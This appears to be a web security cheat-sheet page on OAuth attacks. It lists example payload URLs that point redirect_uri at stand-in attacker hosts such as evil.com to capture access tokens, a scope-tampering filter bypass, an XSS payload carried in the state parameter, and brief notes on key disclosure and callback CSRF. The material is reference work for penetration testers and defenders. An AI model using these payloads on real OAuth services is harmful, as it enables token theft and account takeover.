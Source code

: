 # OAuth

### Grabbing OAuth Token via redirect\_uri

Redirect to a controlled domain to get the access token.

```csharp
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

OAuth implementations should never whitelist entire domains, only a few URLs so that "redirect\_uri" can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect\_uri:

```csharp
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

### Executing XSS via redirect\_uri

```csharp
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

### OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

### Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.
